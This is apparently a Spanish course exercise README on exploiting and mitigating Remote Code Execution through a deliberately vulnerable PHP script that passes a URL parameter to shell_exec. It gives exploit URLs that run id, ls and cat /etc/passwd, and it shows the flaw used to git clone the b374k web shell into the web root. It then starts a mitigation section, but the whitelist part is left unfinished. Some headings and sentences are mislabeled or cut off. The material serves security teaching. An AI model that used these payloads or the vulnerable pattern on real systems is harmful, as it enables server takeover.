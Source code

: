 # PPS-Unidad3Actividad7-RCE
Explotación y Mitigación de Remote Code Execution (RCE).
Tenemos como objetivo:

> - Ver cómo se pueden hacer ataques Remote Code Execution (RCE).
>
> - Analizar el código de la aplicación que permite ataques de Remote Code Execution (RCE).
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es CSRF?
---
Los servidores web generalmente brindan a los desarrolladores la capacidad de agregar pequeñas piezas de código dinámico dentro de páginas HTML estáticas, sin tener que lidiar con lenguajes completos del lado del servidor o del lado del cliente. Esta característica es proporcionada por El lado del servidor incluye(SSI).

Server-Side Includes son directivas que el servidor web analiza antes de servir la página al usuario. Representan una alternativa a escribir programas CGI o incrustar código utilizando lenguajes de scripting del lado del servidor, cuando solo se necesitan realizar tareas muy simples. Las implementaciones comunes de SSI proporcionan directivas (comandos) para incluir archivos externos, para establecer e imprimir variables de entorno CGI del servidor web, o para ejecutar scripts CGI externos o comandos del sistema.

SSI puede conducir a una Ejecución de Comando Remoto (RCE), sin embargo, la mayoría de los servidores web tienen el exec directiva desactivada por defecto.

Esta es una vulnerabilidad muy similar a una vulnerabilidad de inyección de lenguaje de scripting clásico. Una mitigación es que el servidor web debe configurarse para permitir SSI. Por otro lado, las vulnerabilidades de inyección SSI son a menudo más fáciles de explotar, ya que las directivas SSI son fáciles de entender y, al mismo tiempo, bastante potentes, por ejemplo, pueden generar el contenido de los archivos y ejecutar comandos del sistema.


Consecuencias de RCE:
• Acceso a información sensible (usuarios, archivos, configuración).
• Ejecución de comandos maliciosos (descarga y ejecución de malware).
• Escalada de privilegios y control total del sistema.

## ACTIVIDADES A REALIZAR
---
> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Remote Code Execution](./files/ExplotacionYMitigacionRCE.pdf>
> 
> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.]<> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.]<https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/08-Testing_for_SSI_Injection>
>

Vamos realizando operaciones:

## Código vulnerable
---
Archivo vulnerable: rce.php

~~~
<?php
	$output = shell_exec($_GET['cmd']);
	echo $output;
?>
~~~

El código permite que el usuario pueda enviar un comando en la URL (a través del parámetro cmd) y ejecutarlo directamente en el sistema y NO hay validación NI sanitización de la entrada. Por lo tanto se pueden ejecutar coman

## Explotación de RCE
---
Acceder a la URL y ejecutar un comando básico:
~~~
http://localhost/rce.php?cmd=id
~~~
![](images/rce1.png)

Si se muestra información del sistema o similar (uid=1000(user) gid=1000(user)), la aplicación es vulnerable.

**Intentar listar archivos del servidor:**
~~~
http://localhost/rce.php?cmd=ls
~~~

![](images/rce2.png)

Si se muestran archivos del sistema en pantalla, el ataque funciona.

**Probar más comandos:**

~~~
http://localhost/rce.php?cmd=cat /etc/passwd
~~~

![](images/rce3.png)

Si muestra el contenido de /etc/passwd, el atacante puede extraer credenciales.

**Intentar descargar y ejecutar malware:**

Sólo para nuestro ejemplo dar permisos de escritura a /var/www/html/

~~~
sudo chmod -R 777 /var/www/html/
~~~
Accedemos a la página web: 
~~~
http://localhost/rce.php?cmd=git clone https://github.com/b374k/b374k.git /var/www/html/b374k
~~~

El shell se habrá instalado y podremos acceder a él y ejecutar los comandos que queramos.

~~~
http://localhost/b374k/index.php
~~~
![](images/rce4.png)

El atacante tiene control total del sistema.

### Mitigaciones de RCE
**Eliminar el uso de shell_exec()**
---
Si la ejecución de comandos no es necesaria, deshabilitar la funcionalidad completamente.

Código seguro (rce.php sin posibilidad de ejecución de comandos ya que se elimina totalmente)

~~
<?php
die("Esta funcionalidad ha sido deshabilitada por razones de seguridad.");
?>
~~~
**Beneficios:**

- Bloquea cualquier intento de ejecución de código en el sistema.

- Evita ataques RCE de forma definitiva.

- No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

**Restringir Comandos Permitidos**

Si se necesita permitir algunos comandos específicos, usar una lista blanca (whitelist).

Código seguro (rce.php con lista blanca de comandos permitidos)

![](images/rce1.png)
![](images/rce1.png)

## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad7-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__

